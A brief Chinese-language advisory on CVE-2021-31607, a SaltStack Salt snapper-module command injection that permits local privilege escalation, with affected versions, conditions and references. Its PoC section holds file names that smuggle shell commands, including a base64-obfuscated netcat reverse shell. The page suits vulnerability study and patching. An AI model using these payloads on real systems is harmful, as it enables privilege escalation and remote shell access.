 # 

# SaltStack Minion 命令注入漏洞 CVE-2021-31607

## 漏洞描述

2021年4月28日，深信服安全团队监测到一则Salt组件存在 SaltStack Minion 命令注入漏洞的信息，漏洞编号：CVE-2021-31607，漏洞威胁等级：中危。

该漏洞是由于在SaltStack Salt 2016.9至3002.6中，快照程序模块中存在一个命令注入漏洞，攻击者可利用该漏洞获得权限的情况下，对一个分支系统的本地特权进行升级。

参考阅读：

* https://sec.stealthcopter.com/saltstack-snapper-minion-privledge-escaltion/
* https://nvd.nist.gov/vuln/detail/CVE-2021-31607
* https://nox.qianxin.com/vulnerability/detail/97347

## 漏洞影响

```
2016.9 ≤ SaltStack Salt ≤ 3002.6
```

## 漏洞复现

利用条件 : 

1. 用户认证：需要用户认证
2. 前置条件：配置了快照程序，使用snapper模块
3. 触发方式：本地

poc：

```
echo hi > '$(touch HACKED).txt'
反弹shell：
echo hi > '$(echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDQ0|base64 -d|sh -i).txt'
```



